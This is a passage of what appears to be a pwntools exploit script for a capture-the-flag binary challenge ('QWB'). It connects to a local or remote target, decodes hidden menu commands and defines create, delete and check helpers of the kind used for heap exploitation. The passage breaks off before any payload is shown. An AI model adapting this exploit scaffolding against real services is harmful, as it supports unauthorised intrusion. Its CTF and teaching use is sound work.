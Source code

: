 ```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *

context.log_level = 'debug'
context(arch='amd64', os='linux')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

elf = ELF("./pwn")
libc = ELF('libc.so')

if(len(sys.argv)==1):            #local
    cmd = ["./pwn"]
    sh = process(cmd)
else:                        #remtoe
    sh = remote(host, port)

Arr = [
        [81, 87, 66, 95, 67, 114, 51, 52, 116, 51, 0, 0, 0, 0, 0, 0],
        [81, 87, 66, 95, 68, 51, 108, 51, 84, 101, 0, 0, 0, 0, 0, 0],
        [81, 87, 66, 95, 67, 104, 51, 67, 107, 0, 0, 0, 0, 0, 0, 0],
        [81, 87, 66, 95, 77, 48, 100, 49, 70, 121, 0, 0, 0, 0, 0, 0],
        [81, 87, 66, 95, 71, 48, 48, 100, 66, 121, 101, 0, 0, 0, 0, 0]
    ]

def Str(Arr):
    res = ''
    for c in Arr:
        res+=chr(c)
    return res

def Num(n):
    sh.sendline(str(n))

def Cmd(c):
    sh.recvuntil('&gt;&gt; ')
    Num(c)

def Prepare():
    Cmd(1)
    sh.recvuntil('Code: ')
    sh.sendline("W31C0M3_to_QWB21")

def Create(arr):
    sh.recvuntil('$ ')
    sh.send(Str(Arr[0]))
    sh.recvuntil('How many numbers do you need?\n')
    Num(len(arr))
    for N in arr:
        sh.recvuntil(': ')
        Num(N)

def Delete(idx):
    sh.recvuntil('$ ')
    sh.send(Str(Arr[1]))
    sh.recvuntil('Which challenge do you want to delete?\n')
    Num(idx)

def Check(idx):
    sh.recvuntil('$ ')
```